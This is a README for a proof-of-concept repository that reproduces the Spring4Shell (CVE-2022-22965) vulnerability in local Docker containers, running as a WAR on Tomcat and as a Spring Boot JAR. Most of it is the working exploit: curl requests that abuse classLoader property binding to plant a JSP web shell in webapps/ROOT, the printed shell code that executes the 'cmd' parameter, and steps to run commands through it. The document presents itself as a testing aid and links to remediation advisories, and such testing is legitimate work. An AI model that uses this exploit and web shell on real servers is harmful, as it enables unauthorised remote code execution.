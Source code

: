 # Replicate spring shell 0 day vulnerability
This is a POC to test spring shell vulnerability in a spring-boot app on multiple runtimes. You can test spring-boot WAR on Tomcat and spring-boot JAR


## Step 1: Prepare vulnerable service
Below are 2 paths to create a service. One is a spring-boot WAR running on standalone Tomcat and the other is a spring-boot jar executable

### spring-boot WAR on tomcat
1. Run command to:
   - Package a war file
   - Build a tomcat 8 JDK 11 image (This POC uses Amazon Corretto, but pick your applicable image)
   - Run a container from the image        
 `mvn clean package -P war && docker build . -f Dockerfile-war -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run below POST request that attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp file is springshell.jsp
   1. If the jsp is not created, _the application is not compromised_
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. If springshell.jsp file is created, review jsp content:
   `docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"` will display
   `<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %>//`
   _This means the application is compromised_. Refer remediation steps in the references below

### spring-boot jar
1. Run command to:
    - Package a jar file
    - Build a JDK 11 image (This POC uses Amazon Corretto, but pick your applicable image)
    - Create a container from the image        
      `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run below POST request that attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp file is springshell.jsp
```
curl --request POST \
  --url http://localhost:8080/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Check if a jsp file is present in embedded tomcat ROOT folder:
`docker exec -it springshell bash -c "cd /tmp/tomcat.*.8080/work/Tomcat/localhost/ROOT;ls"`. If there is no jsp, _the application is not compromised_

## Step 2: Exploitation
- Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404, _the application is not compromised_
  - If the output is the response of a shell command execution, _the application is compromised_. Refer remediation steps in the references below

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/